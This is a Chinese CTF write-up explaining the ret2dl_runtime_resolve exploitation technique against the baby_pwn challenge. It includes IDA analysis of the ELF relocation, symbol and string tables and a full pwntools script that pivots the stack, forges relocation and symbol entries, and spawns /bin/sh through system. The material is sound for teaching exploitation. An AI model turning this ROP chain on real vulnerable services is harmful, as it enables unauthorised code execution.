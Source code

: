 # dl_runtime_resolve实例分析
## IDA静态分析

这里用2019信安国赛的baby_pwn来做演示(就是因为这个做不出来去做了好多功课)，实例程序test在文件夹下，hack.py是实现本地攻击的脚本  

首先使用checksec查看文件保护状态，由于是partial relo所以并没机会改写动态段的字符串表地址。所以我们直接伪造所有所需要的参数结构。

ida动态段信息如下  

---

![1.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/1.png)

---  

d_tag字段值为DT_JMPREL,DT_SYMTAB,DT_STRTAB,分别保存了重定位表，字符串表，符号表

重定位表信息如下  

---

![2.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/2.png)

---

比如read函数的重定位条目r_offset字段保存read got表中的位置，r_info保存了符号表索引，低8位保存了符号绑定信息  

更据符号表索引追踪符号表信息如下  

---  

![3.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/3.png)  

---    

第一个字段是st_name表示字符串在字符串表中偏移，其他字段的值我们伪造时仿造其他常规函数即可，他们详细信息定义在elf头文件中。

字符串表如下。

---  

![4.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/4.png)  

---  

## 伪造参数  

---  

![5.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/5.png)  

---  

程序漏洞点很容易定位，就在vuln函数中有一处栈溢出，但是只有一个read函数可以调用，没有机会泄漏libc，所以就直接考虑ret2dlruntime  

```  

from pwn import *

elf = ELF('test')

strTab = 0x804827c
symTab = 0x80481dc
relTab = 0x804833c

plt0At = 0x8048380
bssAt =  0x804a040
baseAt = bssAt + 0x500  

#这些是程序中的小gadget(可利用的小片段)用来处理栈迁移
pppRet = 0x80485d9
popEbpRet = 0x80485db  
leaveRet = 0x804854a 

readPlt = elf.plt['read']
readGot = elf.got['read']

#缓冲区填充
nop = cyclic(0x28)

rop1 = nop
rop1 += cyclic(0x4)
rop1 += p32(readPlt)
#上面用来覆盖返回地址为read函数，向可控制的bss段写入rop
#pppret作为返回地址，用来处理掉三个传递给read的函数
rop1 += p32(pppRet)
rop1 += p32(0)
rop1 += p32(baseAt-4)
rop1 += p32(0x100)
rop1 += p32(popEbpRet)
#迁移栈去ret plt0 我们在baseat处填入plt0的地址用于ret返回执行动态链接器
rop1 += p32(baseAt-4)
rop1 += p32(leaveRet)

#这是传递给dl_fixup函数的重定位条目偏移，几个4字节大小是用来计算伪造的重定位条目的地址
#这些4字节用于填充一些会用到的参数
relloc_offset = baseAt + 4 + 4 + 4 + 4 + 4 - relTab

#计算符号条目地址
symAt = relTab + relloc_offset + 0x8
#结构体要在内存中对齐
align = 0x10 - ((symAt-symTab)&0xf)
#计算出实际地址
symAt = symAt + align
#计算出表项索引
r_sym = (symAt - symTab)/0x10
r_info = (r_sym << 8) + 0x7
#伪造重定位条目
fakeRel = p32(readGot) + p32(r_info)

strAt = symAt + 0x10
st_name = strAt - strTab
#伪造符号表条目
fakeSym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

argStr = '/bin/sh\0'
funcStr = 'system\0'

argAt = strAt + len(funcStr)
#完成第二段rop的构造
rop2 = p32(baseAt-4)
rop2 += p32(plt0At)
rop2 += p32(relloc_offset)
rop2 += p32(readPlt)
rop2 += p32(argAt)
rop2 += cyclic(0x4)
rop2 += fakeRel
rop2 += '\0'*align
rop2 += fakeSym
rop2 += funcStr
rop2 += argStr  

r = process('./test')
r.send(rop1)
r.send(rop2)
r.interactive()

```  

## 测试  

---  

![6.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/6.png)  

---  







